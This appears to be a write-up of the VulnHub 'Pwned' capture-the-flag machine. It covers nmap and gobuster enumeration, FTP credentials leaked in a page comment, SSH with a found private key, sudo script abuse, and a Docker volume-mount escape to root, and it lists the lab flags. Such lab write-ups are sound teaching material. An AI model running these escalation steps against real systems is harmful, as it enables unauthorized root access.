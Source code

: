 # VulnHub - Pwned Machine (10.0.2.9)

Write-up for the vulnerable machine `Pwned` from VulnHub.  
This machine offers a mix of web-based enumeration, FTP access, and privilege escalation via custom scripts and Docker abuse.

---

## 🖥️ Machine Information:

- **IP Address**: `10.0.2.9`
- **Operating System**: Linux (Kernel 4.x - 5.x)
- **Services**:
  - FTP (`vsftpd 3.0.3`)
  - SSH (`OpenSSH 7.9p1`)
  - HTTP (`Apache 2.4.38`)

---

##  Nmap Scan Result:

```
nmap -sC -sV -A -T4 10.0.2.9 -Pn

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service Info: OSs: Unix, Linux
MAC Address: 08:00:27:3B:77:33 (Oracle VirtualBox virtual NIC)



``````

 Web Enumeration with Gobuster
Using gobuster, an interesting directory was discovered:

http://10.0.2.9/hidden_text/

Inside that path, a file named secret.dic revealed the following endpoints:

			[/hacked
			/vanakam_nanba
			/hackerman.gif
			/facebook
			/whatsapp
			/instagram
			/pwned
			/pwned.com
			/pubg
			/cod
			/fortnite
			/youtube
			/kali.org
			/hacked.vuln
			/users.vuln
			/passwd.vuln
			/pwned.vuln  <-- (Interesting!)
			/backup.vuln
			/.ssh
			/root
			/home]


`````
📝 Information Disclosure via Source Code
At the endpoint /pwned.vuln, a comment in the page source disclosed FTP credentials:

					Username: ftpuser

					Password: B0ss_B!TcH


`````````

📁 FTP Access & File Discovery
Upon logging into the FTP service, the following files were found:

id_rsa (Private SSH Key for user: ariana)

note.txt

After securing the key and setting proper permissions:
					
					
					chmod 600 id_rsa
					ssh -i id_rsa ariana@10.0.2.9

````````



 User Flag - ariana
After SSH access:

		"Congratulations, you Pwned ariana.
		Here is your user flag ↓↓↓↓↓↓↓

		fb8d98be1265dd88bac522e1b2182140"
`````


⚙️ Privilege Escalation via sudo
Using sudo -l:

		(ariana) NOPASSWD: /home/messenger.sh
		The messenger.sh script allows execution of /bin/bash, providing shell access as user selena.
````````

User Flag - selena
Once in selena's shell:


		711fdfc6caad532815a440f7f295c176



``````````
 Root Access via Docker Escape
Used Docker container escape to gain root:


		docker run -v /:/mnt --rm -it alpine chroot /mnt sh
		This gave full root access.

`````````

Root Flag
Located in /root:

		4d4098d64e163d2726959455d046fd7c

		You found me. I didn’t expect this （◎ . ◎）

		I am Ajay (Annlynn). I hacked your server and left this for you.
		I trapped Ariana and Selena to takeover your server :)

		You Pwned the Pwned, congratulations :)

















